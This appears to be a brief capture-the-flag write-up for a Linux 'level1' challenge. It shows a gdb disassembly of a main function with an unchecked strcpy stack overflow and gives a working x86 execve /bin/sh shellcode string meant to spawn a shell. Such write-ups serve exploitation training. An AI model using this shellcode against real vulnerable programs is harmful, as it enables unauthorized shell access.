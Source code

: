 # Level1 pwnage Linux level1 - Challenge 80

(gdb) disass main
Dump of assembler code for function main:
   0x0804841c <+0>:     push   %ebp
   0x0804841d <+1>:     mov    %esp,%ebp
   0x0804841f <+3>:     and    $0xfffffff0,%esp
   0x08048422 <+6>:     sub    $0x410,%esp
   0x08048428 <+12>:    mov    0xc(%ebp),%eax
   0x0804842b <+15>:    add    $0x4,%eax
   0x0804842e <+18>:    mov    (%eax),%eax
   0x08048430 <+20>:    mov    %eax,0x4(%esp)
   0x08048434 <+24>:    lea    0x10(%esp),%eax
   0x08048438 <+28>:    mov    %eax,(%esp)
   0x0804843b <+31>:    call   0x8048300 <strcpy@plt>
   0x08048440 <+36>:    mov    $0x0,%eax
   0x08048445 <+41>:    leave
   0x08048446 <+42>:    ret

Let's use this shellcode to spawn a shell:
http://shell-storm.org/shellcode/files/shellcode-827.php

Shellcode:
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
